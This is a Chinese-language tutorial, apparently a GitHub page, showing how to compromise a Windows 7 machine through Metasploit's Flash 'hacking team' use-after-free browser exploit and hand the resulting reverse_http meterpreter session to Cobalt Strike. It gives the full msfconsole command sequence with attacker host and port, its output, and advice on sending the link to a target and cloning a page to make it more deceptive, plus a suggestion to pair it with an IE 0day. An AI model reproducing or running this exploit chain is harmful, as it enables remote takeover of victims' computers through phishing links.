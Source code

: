# 0x00 简介

MSF内部集成很多模块，我这里用的一个flash漏洞模块adobe_flash_hacking_team_uaf 然后把会话给CS 这篇文章的内容很早就在[油管](https://www.youtube.com/watch?v=fnCLdPOmZOk)上就有了，所以手法不是很超前，但是写出来也是提供一个思路，让大家发挥。

# 0x01 过程
### 环境：
攻击机：kali
目标机：win7
flash版本：flashplayer14_0r0_125_winax

首先我们启动msf 配置我们的payload
![Cobalt Strike ](./img/6.1.png)

```
msf > use exploit/multi/browser/adobe_flash_hacking_team_uaf
msf exploit(multi/browser/adobe_flash_hacking_team_uaf) > set PAYLOAD windows/meterpreter/reverse_http
PAYLOAD => windows/meterpreter/reverse_http
msf exploit(multi/browser/adobe_flash_hacking_team_uaf) > set DisablePayloadHandler true
DisablePayloadHandler => true
msf exploit(multi/browser/adobe_flash_hacking_team_uaf) > set LHOST 192.168.130.130
LHOST => 192.168.130.130
msf exploit(multi/browser/adobe_flash_hacking_team_uaf) > set LPORT 8880
LPORT => 8880
msf exploit(multi/browser/adobe_flash_hacking_team_uaf) > exploit -j
[*] Exploit running as background job 2.

[*] Using URL: http://0.0.0.0:80/X11zRtcWP
[*] Local IP: http://192.168.130.130:80/X11zRtcWP
[*] Server started.

```

>默认情况下，payload_inject执行之后会在本地产生一个新的handler，由于我们已经有了一个，所以不需要在产生一个，这里我们设置：
set DisablePayloadHandler true

然后再配置Cobalt Strike  生成一个Listeners  端口和msf 中LPORT的端口一样 地址就是主机地址，然后我们可以直接把msf中的连接发送给目标机了，当然你觉得一个空白页面迷惑性不是很强的话可以使用克隆功能。

![Cobalt Strike ](./img/6.2.png)

然后再把生成的链接发送给目标 ，最好是自己测试一下使用克隆，不知道怎么回事不上线情况居多，不知道是目标环境配置问题还是什么，我没有深入研究，访问成功后在msf中我们可以看到下载记录和CS中成功上线

![Cobalt Strike ](./img/6.3.png)

# 0x02 文末

这里克隆后 自己最好是测试下是否可以上线，作者这里老出问题。本文讲的flash版本漏洞或许过时，还可以搭配 ie的0day来利用（2小时）

### 本文如有错误，请及时提醒，以免误导他人